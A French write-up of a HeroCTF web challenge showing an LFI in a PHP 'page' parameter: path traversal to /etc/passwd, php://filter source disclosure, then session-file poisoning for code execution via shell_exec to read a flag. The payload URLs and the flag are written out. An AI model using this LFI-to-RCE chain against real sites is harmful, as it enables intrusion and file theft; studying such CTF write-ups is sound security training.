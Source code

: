 # Sessions Workout

### Catégorie

Web

### Description

Des personnes malveillantes menacent d'exposer la vie de célébrités au grand public.. il faut absolument empêcher ça !!<br>
Vous avez pour but de récupérer un fichier contenu dans le home de l'utilisateur.

http://challs.heroctf.fr:3005/

Format : Hero{flag}

### Auteur

Worty

### Note aux lecteurs

Github ne permet pas d'afficher du code PHP tel quel. Quand il y a une payload il faut évidemment mettre les balises PHP pour que celle-ci fonctionne.<br/>
Ces balises ne seront donc pas présentes dans ce writeup mais doivent être présentes quand vous faites le challenge.

### Solution

Quand on arrive sur la page index.php, rien n'est apparant. Quand on commence à se balader sur le site, on remarque que les fichiers php sont accédés via un paramètre "page".

Ce paramètre est donc contrôlé par l'utilisateur, et donc potentiellement faillé. On essaye de passer un payload de type LFI "../../../../../etc/passwd". BOOM on récupère le fichier demandé, il y a donc une faille de type LFI.

Pour savoir ce qu'on peut en faire, on peut aller voir : https://github.com/swisskyrepo/PayloadsAllTheThings.

On sait que l'on doit aller lire un fichier dans le home de l'utilisateur, hors, on ne connait pas du tout le nom de son home. Nous allons donc devoir passer par un faille de type RCE (Remote Code Execution).

Avec la LFI, on récupère le contenu du fichier index.php : http://challs.heroctf.fr:3005/index.php?page=php://filter/convert.base64-encode/resource=index.php

Dans ce fichier, on remarque plusieurs choses :<br/>
    - session_save_path('./OhD4Sessions'); : les sessions sont stockés dans un dossier qui est accessible par l'utilisateur.<br/>
    - $_SESSION['page'] = $_REQUEST['page']; : ce qui est passé dans le paramètre page est stocké dans la session.<br/>

Nous allons donc utiliser cette option pour passer notre code PHP et arriver à notre but !

Payload : http://challs.heroctf.fr:3005/index.php?page=phpinfo();, ici, le serveur nous répond que le fichier n'existe pas, forcément, puisque c'est du code PHP.<br/>
On va donc maintenant accéder à notre session AVEC le paramètre page car on veut que notre code PHP soit exécuté.

Payload :  http://challs.heroctf.fr:3005/index.php?page=./OhD4Sessions/sess_ID<br/>
BOOM ! Notre code php est exécuté, nous avons donc notre RCE.

Nous allons donc maintenant devoir lister le contenu du dossier /home, pour connaître le nom de l'utilisateur :<br/>
Payload : http://challs.heroctf.fr:3005/index.php?page=var_dump(shell_exec("ls /home"));<br/>
On réaccède à notre session grâce à la LFI, et on remarque dans le dossier home l'utilisateur haxorhome.

Nous allons donc maintenant récupérer le nom du fichier à récupérer :<br/>
Payload : http://challs.heroctf.fr:3005/index.php?page=var_dump(shell_exec("ls /home/haxorhome"));<br/>
On réaccède à notre session grâce à la LFI, on remarque que le fichier se nomme flag.txt.

Payload final : http://challs.heroctf.fr:3005/index.php?page=var_dump(shell_exec("cat /home/haxorhome/flag.txt")); , et on réaccède à notre session grâce à la LFI, flag !

### Flag

Hero{p4y_4tt3nt10n_t0_s3ss1on_n3xt_t1m3_!!}